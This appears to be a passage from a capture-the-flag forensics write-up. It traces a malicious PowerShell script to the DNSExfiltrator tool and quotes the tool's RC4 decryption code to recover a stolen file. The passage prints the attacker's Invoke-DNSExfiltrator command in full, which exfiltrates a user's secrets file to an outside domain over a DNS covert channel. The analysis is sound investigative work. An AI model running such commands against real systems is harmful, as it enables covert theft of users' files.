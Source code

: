 ```powershell
Invoke-DNSExfiltrator -i C:\Users\Tom\Desktop\secrets.txt.txt -d igotoschoolbybus.online -p 'K#2dF!8t@1qZ' -s 192.168.135.135
```

Wow! `Invoke-DNSExfiltrator`??

> DNSExfiltrator allows for transfering (_exfiltrate_) a file over a DNS request covert channel. This is basically a data leak testing tool allowing to exfiltrate data over a covert channel. (from [https://github.com/Arno0x/DNSExfiltrator/tree/master](https://github.com/Arno0x/DNSExfiltrator/tree/master))

Oh wow! Looks like the attacker used [DNSExfiltrator](https://github.com/Arno0x/DNSExfiltrator/tree/master) to exfiltrate the contents of `secret.txt.txt`!

After reading a little about the tool, we can break down the last line of the `list-dns-servers.ps1` script!

The `Invoke-DNSExfiltrator` was ran on the victim machine, and:

1. Exfiltrate file `C:\Users\Tom\Desktop\secrets.txt.txt` (option `-i`)
2. Send the file to domain `igotoschoolbybus.online` (option `-d`)
3. Encryption the file with password `K#2dF!8t@1qZ` (option `-p`)
4. Set the DNS server to be `192.168.135.135` (option `-s`)

### Decrypt the File

That being said, **we should be able to recover/decrypt the contents of `secrets.txt.txt` if we know how the tool encrypt it!**

By looking at the server side Python script `dnsexfiltrator.py` (acts as a custom DNS server, receiving the file), **the exfiltrated files will be compressed (zip), encrypted using the RC4 (Rivest Cipher 4) encryption algorithm:**

```python
[...]
class RC4:
    def __init__(self, key = None):
        self.state = range(256) # initialisation de la table de permutation
        self.x = self.y = 0 # les index x et y, au lieu de i et j

        if key is not None:
            self.key = key
            self.init(key)

    # Key schedule
    def init(self, key):
        for i in range(256):
            self.x = (ord(key[i % len(key)]) + self.state[i] + self.x) & 0xFF
            self.state[i], self.state[self.x] = self.state[self.x], self.state[i]
        self.x = 0

    # Decrypt binary input data
    def binaryDecrypt(self, data):
        output = [None]*len(data)
        for i in xrange(len(data)):
            self.x = (self.x + 1) & 0xFF
            self.y = (self.state[self.x] + self.y) & 0xFF
            self.state[self.x], self.state[self.y] = self.state[self.y], self.state[self.x]
            output[i] = (data[i] ^ self.state[(self.state[self.x] + self.state[self.y]) & 0xFF])
        return bytearray(output)
[...]
try:
    # Create and initialize the RC4 decryptor object
    rc4Decryptor = RC4(args.password)
    
    # Save data to a file
    outputFileName = fileName + ".zip"
```